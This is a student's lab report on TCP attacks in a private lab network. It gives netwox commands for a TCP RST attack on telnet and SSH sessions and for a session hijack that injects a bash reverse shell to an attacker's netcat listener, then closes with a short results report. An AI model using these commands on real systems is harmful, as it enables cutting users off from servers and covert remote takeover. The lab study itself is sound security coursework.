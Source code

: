```yaml
---
id: A5
description: and assignments
title: TCP attacks
tags:
  - sfwr4c03
  - assignment
modified: 2025-04-10 06:39:21 GMT-04:00
---
```


## TCP RST Attacks on `telnet` and `ssh`

leg IP: `10.0.0.2`, vic IP: `10.0.0.3`

The `netwox` commands are as follow:

```bash
netwox 78 -d eth0 --filter "host 10.0.0.2 and host 10.0.0.3 and port 23"
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-terminal.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker.webp]]

This is  for SSH

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-wireshark.webp]]

## TCP Session Hijacking

1. The following is the captured image on attacker node:

```bash
netcat -l 9090 -nv
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-tcp-hijacking.webp]]

The victim node then perform `bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reverse-vic-node.webp]]

The attacker node now completes the reverse shell process, as shown through `ifconfig`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reversed-shell-complete-att.webp]]

2. `netwox` command:

```bash
netwox 40 --ip4-src 10.0.0.2 -m 10.0.0.3 -o 58438 -p 23 -q 2811481894 -r 2489318395 -z -H "0d0a'/bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1'0d0a" 
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attack-node-cmd-reverse.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/new-wireshark.webp]]

## report

Based on the results observed from the network penetration tests, both attacks achieved their intended outcomes. The initial assault, conducted with `netwox 78`  effectively terminated the connection between nodes 'leg' and 'vic' as soon as the command was launched. If the disruption persisted, 'leg' was rendered unable to re-establish a link to 'vic', which receiving only a "connection closed by foreign host" message in response.  This situation demonstrates how an attacker could block a user's access to a server without much effort. 

Similarly, the second offensive strategy utilizing `netwox 40` successful in enabling the stealthy execution of commands on 'vic', without leaving any trace of the intrusion. This capability is particularly alarming as it allows an attacker to secretly harvest data or execute harmful activities on a user's machine, where it would ultimately be without their awareness.
